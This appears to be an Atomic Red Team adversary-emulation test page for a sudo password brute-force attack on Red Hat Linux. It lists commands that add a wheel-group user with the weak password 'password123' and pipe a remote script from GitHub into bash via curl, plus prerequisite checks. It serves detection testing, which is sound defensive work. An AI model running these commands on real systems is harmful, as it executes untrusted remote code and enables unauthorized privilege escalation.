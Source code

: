 


<br/>
<br/>

## Atomic Test #6 - SUDO Brute Force - Redhat
An adversary may find themselves on a box (e.g. via ssh key auth, with no password) with a user that has sudo'ers privileges, but they do not know the users password. Normally, failed attempts to access root will not cause the root account to become locked, to prevent denial-of-service. This functionality enables an attacker to undertake a local brute force password guessing attack without locking out the root user. 

This test creates the "art" user with a password of "password123", logs in, downloads and executes the sudo_bruteforce.sh which brute force guesses the password, then deletes the user

**Supported Platforms:** Linux


**auto_generated_guid:** 4097bc00-5eeb-4d56-aaf9-287d60351d95





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1110.001/src/sudo_bruteforce.sh|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -G wheel -s /bin/bash -p $(openssl passwd -1 password123) art
su art
cd /tmp
curl -s #{remote_url} |bash
```

#### Cleanup Commands:
```bash
userdel -fr art
```



#### Dependencies:  Run with `bash`!
##### Description: Check if running on a Redhat based machine.
##### Check Prereq Commands:
```bash
if grep -iq "rhel\|fedora\|centos" /usr/lib/os-release; then echo "RedHat"; else echo "NOT RedHat"; exit 1; fi
if grep -Rq "pam_faillock" /etc/pam.d/*; then echo "pam_faillock configured"; exit 1; fi
if [ -x "$(command -v openssl)" ]; then echo "openssl is installed"; else echo "openssl is NOT installed"; exit 1; fi
if [ -x "$(command -v sudo)" ]; then echo "sudo is installed"; else echo "sudo is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
yum update && yum install -y openssl sudo curl
```
